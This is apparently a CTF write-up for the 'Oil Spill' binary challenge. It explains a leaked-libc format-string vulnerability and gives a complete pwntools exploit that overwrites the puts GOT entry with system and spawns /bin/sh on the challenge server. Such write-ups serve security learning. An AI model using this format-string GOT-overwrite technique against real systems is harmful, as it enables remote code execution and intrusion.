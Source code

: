 # Oil Spill

## Challenge

Darn, these oil spills are going crazy nowadays. It looks like there's a little bit more than oil coming out of this program though...

Connect ```nc oil.sdc.tf 1337```

[binary](OilSpill)

By green beans

## Solution

The binary leaks the address of the ```puts``` and ```printf``` functions that will allow us to calculate the libc base.

```
004006e2      printf(format: "%p, %p, %p, %p\n", puts, printf, &var_148, temp)

```

The binary also suffers from a format specifier vulnerability.

```
00400724      fgets(buf: &var_148, n: 0x12c, fp: stdin)
00400738      printf(format: &var_148)
```

Since the binary does not have ```RELRO``` enabled, we can overwrite the GOT entries

```
└─# pwn checksec ./OilSpill 
[*] '/root/workspace/ctfs/sdctf/oilspill/OilSpill'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```` 

We will essentially turn puts('Interesting Proposition') into system('/bin/sh\0') by ovewriting the .got entry for ```puts``` and the .data entry for ```x```

```
0040073d  488d3d3c052000     lea     rdi, [rel x]  {"Interesting Proposition"}
00400744  e837feffff         call    puts
...

00600c80  x:
00600c80  49 6e 74 65 72 65 73 74 69 6e 67 20 50 72 6f 70  Interesting Prop
00600c90  6f 73 69 74 69 6f 6e 00                          osition.

````

Our final solution follows:

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary,checksec=False)
r = ROP(e)

if args.REMOTE:
   libc = ELF('libc6_2.27-3ubuntu1.5_amd64.so',checksec=False)
else: 
   libc = ELF('libc6_2.33-6_amd64.so',checksec=False)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('oil.sdc.tf',1337)
    else:
        return process(e.path)

p = start()

def leak_libc():
   leaks=p.recvline().split(b',')
   puts_addr = int(leaks[0],16)
   printf_addr = int(leaks[1],16)
   log.info("Puts  Leak: %s" %hex(puts_addr))
   log.info("Printf Leak: %s" %hex(printf_addr))
   return puts_addr, printf_addr

def calc_base(puts_addr,printf_addr):
   base_leak_1 = puts_addr - libc.sym['puts']
   base_leak_2 = printf_addr - libc.sym['printf']
   log.info("Base Leak Off Puts: %s" %hex(base_leak_1))
   log.info("Base Leak Off Printf: %s" %hex(base_leak_2))
   libc.address=base_leak_1

def got_write_sys():
   payload_writes = {
         e.got['puts']: libc.sym['system'],
         0x600c80: b'/bin/sh\0' 
   }

   payload = fmtstr_payload(8,payload_writes,write_size='short')
   p.sendline(payload)
   p.recvline()
   p.interactive()

puts_addr, printf_addr = leak_libc()
calc_base(puts_addr,printf_addr)
got_write_sys()
```